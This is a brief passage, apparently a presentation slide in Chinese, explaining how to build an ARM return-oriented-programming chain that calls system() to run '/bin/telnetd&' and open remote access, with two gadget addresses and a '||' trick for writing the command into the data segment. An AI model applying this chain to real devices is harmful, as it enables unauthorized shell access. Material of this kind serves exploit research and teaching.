

构造ROP的思路是，调用system函数来执行命令开启telnetd：
Cmd = “/bin/telnetd&”
通过ROPgadget工具来寻找gadget：
设置寄存器的值：
0x00053a10 pop {r0,lr} ; bx lr;  //从栈上pop出r0，lr，然后跳转到lr
将寄存器中的值写入到data段，可用于构造要执行的命令字符串：
0x0002E4F8 str r0,[r4]; pop {r4,lr}; bx lr  //将r0中的值写入r4指向的内存中，然后从栈上pop出r4和lr，然后跳转到lr
注意，在用gadget向data段写入数据时不能写入\x00，所以需要使用"||"将需要执行的命令和data段后面的垃圾数据隔离开